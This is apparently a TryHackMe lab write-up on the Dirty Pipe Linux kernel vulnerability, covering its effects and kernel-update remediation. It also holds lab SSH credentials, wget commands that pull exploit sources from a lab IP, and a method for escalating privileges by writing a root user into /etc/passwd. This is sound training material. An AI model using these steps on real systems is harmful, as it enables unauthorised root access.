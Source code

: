 ### The effects

> In short, it means that, with the right code, we can arbitrarily overwrite any file on the system, provided we can open it for reading. In other words: if our user has read access over the file (regardless of other permissions or mutability) then we can also write to it. Interestingly, this also applies to read-only file systems, or otherwise protected files which the kernel would usually stop us from writing to; by exploiting the kernel vulnerability and circumventing the "usual" write methods, we also bypass these protections. It's important to note that the changes will not actually be permanent until the kernel chooses to reclaim the memory used by the page (at which point the page gets dumped to the disk). Restarting the device or clearing the page cache manually before the kernel reclaims the memory will revert the file back to its original contents.

### Remediations

> Fortunately, the remediation for this vulnerability is very simple: *update your kernel*.
Patched versions of the Linux Kernel have been released for supported major kernel versions — specifically, the vulnerability has been patched in Linux kernel versions 5.16.11, 5.15.25 and 5.10.102.
Ensure that you apply updates to all of your Linux devices (including any Android) as soon as security patches are released.

### A Weaponised PoC 

#### ssh

`tryhackme:TryHackMe123!`

```dirty-pipe
python3 -m http.server
```

```kali-machine
wget http://10.10.175.211:8000/poc.c
```

```kali-machine
wget http://10.10.175.211:8000/dirtypipez.c
```

> Bearing in mind that the exploit won't let us create files (we can only overwrite information in existing files), we first need to find a file our user can read, but that still allows us to elevate our privileges. The obvious easy choice in these conditions is /etc/passwd. Whilst password hashes are usually stored in the restricted-access /etc/shadow in modern Linux systems (as opposed to being stored traditionally in /etc/passwd), most Linux variants do still check to see if account password hashes are given in /etc/passwd. This means that we can write a user with root permissions and a known password hash directly into the passwd file!

##### The Passwd File

*Passwd entries are comprised of 7 fields, separated by colons (:). For example: root:x:0:0:root:/root:/bin/bash.

In order, these fields are:

    The username (root)
    The user's password hash. In most cases the hash will not actually be given here and instead will be replaced with an x. This means that the hash can instead be found in /etc/shadow.
    The user's UID (User ID) — as the root user, this is 0.
    The user's GID (Group ID). For the root user this will also be 0.
    A description of the account. This is simply "root" in the example, however, it can be left blank.
    The user's home directory (/root)
    The user's login shell (/bin/bash)
